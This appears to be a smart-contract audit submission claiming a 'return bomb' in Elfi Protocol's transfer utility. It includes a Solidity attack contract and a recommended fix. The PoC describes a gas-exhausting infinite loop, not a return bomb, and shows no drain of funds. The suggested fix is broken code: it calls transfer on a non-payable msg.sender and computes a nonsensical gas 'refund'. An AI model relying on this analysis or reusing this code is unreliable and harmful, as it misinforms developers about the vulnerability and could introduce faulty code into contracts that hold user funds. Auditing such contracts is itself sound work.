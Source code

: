Joyous Blush Parakeet

High

# Elfi Protocol Return Bomb

## Summary  Possible Return Bomb

## Vulnerability Detail  A return bomb can lead to unlimited gas consumption, causing a contract to run out of gas and potentially drain user funds. 

Sample Poc an attack could use: 

pragma solidity ^0.8.0;

interface IERC20 {
    function transfer(address recipient, uint256 amount) external returns (bool);
}

contract MaliciousToken is IERC20 {
    // Malicious implementation of the transfer function
    function transfer(address recipient, uint256 amount) external override returns (bool) {
        // Intentionally consume all gas
        while (true) {
            // Infinite loop consuming gas
        }
    }
}

contract Attacker {
    function attack(address target, IERC20 token, address to, uint256 amount, uint256 gasLimit) external returns (bool) {
        bytes memory data = abi.encodeWithSelector(token.transfer.selector, to, amount);
        // Call the target function with a gas limit
        (bool success, ) = target.call{ gas: gasLimit }(data);
        // Return success status of the call
        return success;
    }
}


## Impact  High 

## Code Snippet  https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/main/elfi-perp-contracts/contracts/utils/TransferUtils.sol#L21-31

## Tool used Slither 

Manual Review

## Recommendation   Try to limit gas usage: 

Limit Gas Usage: Instead of allowing arbitrary gas limits to be passed to the call function, consider setting a reasonable upper limit on the gas that can be consumed. This prevents excessive gas consumption and mitigates the risk of a gas limit bomb from an attacker. 

Example: 

function transferWithGasLimit(IERC20 token, address to, uint256 amount, uint256 gasLimit) internal returns (bool) {
    bytes memory data = abi.encodeWithSelector(token.transfer.selector, to, amount);
    
    // Limit gas usage to prevent gas limit bomb
    require(gasLimit <= 50000, "Gas limit exceeds maximum allowed");
    
    uint256 startGas = gasleft();
    (bool success, bytes memory returnData) = address(token).call{ gas: gasLimit }(data);
    uint256 gasUsed = startGas - gasleft();

    // Refund unused gas
    if (gasUsed < gasLimit) {
        msg.sender.transfer(gasUsed * tx.gasprice);
    }
    
    if (!success) {
        return false;
    }
    if (returnData.length > 0 && !abi.decode(returnData, (bool))) {
        return false;
    }
    return true;
}



